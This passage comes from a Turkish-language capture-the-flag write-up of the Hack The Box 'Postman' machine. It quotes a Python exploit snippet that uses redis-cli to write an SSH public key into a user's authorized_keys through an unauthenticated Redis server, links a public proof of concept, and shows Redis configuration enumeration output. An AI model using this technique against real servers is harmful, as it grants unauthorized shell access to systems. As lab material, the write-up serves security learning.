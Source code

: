 ```sh
		cmd1 = "redis-cli -h " + ip_address
		os.system(cmd)
		cmd2 = "cat $HOME/.ssh/public_key.txt | redis-cli -h " +  ip_address + ' -x set cracklist'
		os.system(cmd2)
		cmd3 = cmd1 + ' config set dbfilename "backup.db" '
		cmd4 = cmd1 + ' config set  dir' + " /home/"+username+"/.ssh/"
		cmd5 = cmd1 + ' config set dbfilename "authorized_keys" '
		cmd6 = cmd1 + ' save'
		os.system(cmd3)
		os.system(cmd4)
		os.system(cmd5)
		os.system(cmd6)
		print colored("\tYou'll get shell in sometime..Thanks for your patience", "green")
		ssh_connection()

	except:
		print "Something went wrong"
else:
	print colored("\tRedis-cli:::::This utility is not present on your system. You need to install it to proceed further.", "red")

```
* kodumuz bize, SSH üzerinden geçerli bir kullanıcıyla bağlantı kurmak için RSA anahtarı enjekte edebileceğini söylemiş...
Aynı şekilde python scripti dışında  bir de poc de manuel explotation için mevcut bu noktada ben poc üzerinden gitmeyi tercih ettim.

* POC ----->>>>>> https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

    yine poc dışında faydalandığım diğer bir kaynak ise https://redis.io/commands adresindeki komutlar oldu , redis-cli uygulması ile ilgili dizinleri keşfedeceğimiz komutları ve yolları buradan araştırdım.

Poc'yi uygulamaya geçmeden önce ilgili zafiyette bahsedilen RSA enjeksiyon olayı için doğru bir path lazım , bu noktada redis-cli uygulamamızı kullanarak ihtiyacımız olan bilgileri toplayacağız (*username*/.ssh); 
```sh
root@kali:~/Desktop/htb-machines/payloads# redis-cli -h postman.htb
postman.htb:6379> config get *
  1) "dbfilename"
  2) "authorized_keys"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "cluster-announce-ip"
  8) ""
  9) "unixsocket"
 10) ""
 11) "logfile"
 12) "/var/log/redis/redis-server.log"
 13) "pidfile"
 14) "/var/run/redis/redis-server.pid"
 15) "slave-announce-ip"
 16) ""
 17) "maxmemory"
 18) "0"
 19) "proto-max-bulk-len"
 20) "536870912"
 21) "client-query-buffer-limit"
 22) "1073741824"
 23) "maxmemory-samples"
 24) "5"
 25) "lfu-log-factor"
```